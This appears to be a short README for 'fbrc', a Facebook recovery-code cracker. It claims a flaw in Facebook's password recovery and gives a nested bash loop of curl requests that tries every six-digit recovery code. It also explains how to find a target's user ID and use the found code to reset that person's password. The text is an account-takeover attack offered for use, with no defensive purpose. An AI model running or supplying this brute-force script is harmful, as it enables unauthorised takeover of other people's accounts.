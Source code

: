 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

- access to facebook
- target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

`for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n' |grep password_new; done; done; done; done; done; done`

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.

This curl script will output something only when the code is found, you'll find the code somewhere in the console, just go to the recovery link using the ID and code in a browser.
